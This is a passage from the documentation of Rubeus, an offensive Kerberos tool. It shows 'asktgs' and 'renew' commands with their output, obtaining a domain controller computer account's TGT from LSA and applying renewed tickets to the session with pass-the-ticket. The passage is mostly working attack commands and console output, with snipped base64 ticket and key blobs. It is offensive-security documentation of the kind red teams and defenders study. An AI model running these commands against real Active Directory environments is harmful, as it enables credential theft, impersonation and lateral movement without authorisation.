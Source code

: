 ```
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  k2xUOHFN1Xg(...snip...)
```

Requesting local computer account TGT via renewal. Requires local administrator access.  If credential guard is present, ticket use will not be possible away from the host. 
```
Rubeus.exe asktgs /service:krbtgt/ghostpack.local /luid:0x3e7

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3

[*] Action: Ask TGS

[=] Requesting service ticket via LSA authentication package 2 using handle 0x10441184
[*] base64(ticket.kirbi):

      doIGuTCCBrWg(...snip...)IFhb3MuZGV2

  ServiceName              :  krbtgt/ghostpack.local
  ServiceRealm             :  GHOSTPACK.LOCAL
  UserName                 :  DC$ (NT_PRINCIPAL)
  UserRealm                :  GHOSTPACK.LOCAL
  StartTime                :  25/02/2025 09:18:37
  EndTime                  :  25/02/2025 11:35:10
  RenewTill                :  02/03/2025 10:35:06
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  k2xUOHFN1Xg(...snip...)
```

### renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
